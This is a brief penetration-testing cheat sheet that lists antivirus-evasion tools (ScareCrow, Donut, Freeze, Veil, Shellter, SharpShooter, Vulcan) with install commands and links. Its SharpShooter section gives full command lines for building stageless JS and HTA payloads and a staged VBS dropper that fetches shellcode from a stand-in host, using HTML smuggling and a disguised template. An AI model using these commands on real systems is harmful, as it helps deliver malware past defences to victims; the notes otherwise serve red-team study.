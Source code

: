 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#exploitation
# Recent Tools to Bypass AV: 

## Scarecrow

Source: https://github.com/optiv/ScareCrow

In Kali: 

sudo apt install golang

go get github.com/fatih/color
go get github.com/yeka/zip
go get github.com/josephspurrier/goversioninfo

go build ScareCrow.go

./ScareCrow

## Donut: 

Source: https://github.com/TheWover/donut

## Freeze: 
Source: https://github.com/Tylous/Freeze

Installation

```
sudo apt install golang
go build Freeze.go
```

# Old tools to bypass AV
## Veil Framework:

Install on Kali: 
- apt install veil
- /usr/share/veil/config/setup.sh --force --silent

Reference: https://github.com/Veil-Framework/Veil

## Shellter

Source: https://www.shellterproject.com/download/

- apt install shellter


## Sharpshooter

Javascript Payload Stageless: 
- SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

Stageless HTA Payload: 

- SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

Staged VBS:

- SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

Reference: https://github.com/mdsecactivebreach/SharpShooter


## Vulcan

Source: https://github.com/praetorian-code/vulcan



# Resources: 

- https://book.hacktricks.xyz/windows-hardening/av-bypass
- https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates

